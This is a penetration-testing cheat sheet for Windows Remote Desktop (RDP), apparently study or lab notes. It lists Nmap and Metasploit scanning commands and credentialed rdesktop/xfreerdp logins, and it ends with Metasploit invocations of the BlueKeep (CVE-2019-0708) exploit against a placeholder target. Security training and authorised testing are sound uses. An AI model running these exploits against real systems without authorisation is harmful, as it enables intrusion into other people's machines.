# RDP

## Enumeration

### Metasploit

##### rdp_scanner
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS [IP]
set RPORT 3389
run
```

##### rdp_version
```bash
use auxiliary/scanner/rdp/rdp_version
set RHOSTS [IP]
set RPORT 3389
run
```

### Nmap

##### nmap (Service Version Detection)
```bash
nmap -p 3389 -sV [IP]
```

##### nmap (Aggressive Scan)
```bash
nmap -p 3389 -A [IP]
```

##### nmap (RDP Vulnerability Detection)
```bash
nmap --script=rdp-enum-encryption,rdp-vuln-ms12-020,rdp-vuln-ms10-054 [IP] -p 3389
```

##### nmap (RDP BlueKeep Exploit Check)
```bash
nmap --script=rdp-vuln-ms19-0708 [IP] -p 3389
```

##### nmap (RDP MS12-020 Vulnerability Check)
```bash
nmap --script=rdp-vuln-ms12-020 [IP] -p 3389
```

### rdesktop

##### rdesktop
```bash
rdesktop [IP] -u [username] -p [password]
```

##### rdesktop (with Redirect)
```bash
rdesktop [IP] -u [username] -p [password] -r disk:[localdir]=[remotedir]
```

### xfreerdp

##### xfreerdp
```bash
xfreerdp /v:[IP] /u:[username] /p:[password]
```

##### xfreerdp (SSL Encryption)
```bash
xfreerdp /v:[IP] /u:[username] /p:[password] +tls
```

##### xfreerdp (Audio and Clipboard Redirection)
```bash
xfreerdp /v:[IP] /u:[username] /p:[password] +clipboard +audio
```


---
---


## Exploitation

### Metasploit

##### exploit/windows/rdp/cve_2019_0708_bluekeep
```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep
set RHOSTS [IP]
set RPORT 3389
run
```

##### rdp_relay
```bash
use exploit/windows/rdp/rdp_relay
set RHOSTS [IP]
set RPORT 3389
run
```
